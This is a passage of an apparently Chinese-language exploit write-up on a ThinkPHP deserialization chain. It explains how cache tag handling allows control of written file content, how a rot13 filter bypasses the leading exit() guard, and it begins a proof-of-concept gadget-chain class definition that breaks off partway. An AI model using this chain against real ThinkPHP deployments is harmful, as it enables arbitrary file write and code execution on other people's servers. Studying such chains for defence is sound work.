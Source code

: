 ```php
        }
        return $filename;
    }

    protected function setTagItem($name)
    {
        if ($this->tag) {
            $key       = 'tag_' . md5($this->tag);
            $this->tag = null;
            if ($this->has($key)) {
                $value   = explode(',', $this->get($key));
                $value[] = $name;
                $value   = implode(',', array_unique($value));
            } else {
                $value = $name;
            }
            $this->set($key, $value, 0);
        }
    }
```

由于`$value`不可控,无法直接控制文件写入的内容,因此需要借助`setTagItem`中的`$this->set($key, $value, 0);`来控制文件写入内容,而`$value = $name;`,`$name`则来源于`getCacheKey`生成的文件名

由于`$this->options`可控,因此可以控制文件名,由此可以控制文件写入的内容

但是注意到在文件写入的内容之前存在`<?php exit();>`,需要进行绕过,这里用到了[死亡绕过的技巧](https://www.freebuf.com/articles/web/266565.html)

利用rot13进行死亡绕过,同时将文件内容写入到缓存中

```php
<?php

namespace think\process\pipes {

    use think\Process;

    class Windows
    {
        private $files;
        private $fileHandles;

        public function __construct(array $files)
        {
            $this->pipes = [];
            $this->fileHandles = [];
            $this->files = $files;
        }
    }
}

namespace think\model {

    use think\Db;
    use think\db\Query;
    use think\Model;

    class Merge
    {
        protected $data;
        protected $relation;
        protected $visible;
        protected $hidden;
        protected $append;
```